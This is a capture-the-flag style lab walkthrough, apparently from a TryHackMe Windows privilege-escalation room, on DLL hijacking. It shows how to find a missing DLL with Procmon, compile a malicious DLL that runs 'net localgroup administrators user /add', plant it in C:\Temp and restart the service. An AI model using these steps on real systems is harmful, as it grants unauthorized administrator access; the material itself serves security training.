

# DLL Hijacking

DLL hijacking looks for a specific applications fails to load a DLL file due to the intended/valid file not being found (”NAME NOT FOUND”). By adding a malicious DLL file to the load path the application searches for DLLs when loading, we can inject the malicious DLL where the valid DLL was not found (”NAME NOT FOUND”). This results in the malicious DLL being called when the application is loaded.

## Step 1: Detection

Launch Procmon64.exe using provide admin credentials.

Open the Filter menu and add the following filters:

- `Result is NAME NOT FOUND`
- `Path ends with .dll`


Click `apply` and `Ok`

We are going to trigger the service `dllsvc` to simulate the exploit for demonstration purposes.

```bash
C:\Users\user> sc start dllsvc
```


The `dllhijackservice` has a `NAME NOT FOUND` for `C:\Temp\hijackme.dll`


## Step 2: Exploitation

Begin by moving the file `C:\Users\user\Desktop\Tools\Source\windows_dll.c` to our attack box


Start a Python FTP server on our attack box

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ python -m pyftpdlib -p 21 --write
/home/vagrant/.local/lib/python3.11/site-packages/pyftpdlib/authorizers.py:108: RuntimeWarning: write permissions assigned to anonymous user.
  self._check_permissions(username, perm)
[I 2023-12-29 20:43:08] concurrency model: async
[I 2023-12-29 20:43:08] masquerade (NAT) address: None
[I 2023-12-29 20:43:08] passive ports: None
[I 2023-12-29 20:43:08] >>> starting FTP server on 0.0.0.0:21, pid=386019 <<<
```

Upload the `windows_dll.c` file from the target box


Add the following line to `windows_dll.c` to add the `user` account to the local `administrators` group

```bash
system('cmd.exe /k net localgroup administrators user /add');
```



Compile the `windows_dll.c` source code file to the `hijackme.dll` output

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$  x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
```

Upload `hijackme.dll` to the `C:\Temp` directory on the target


Now start the dllsvc service to get the `user` account added to the `administrators` local group

```bash
C:\Users\user> sc stop dllsvc & sc start dllsvc
```


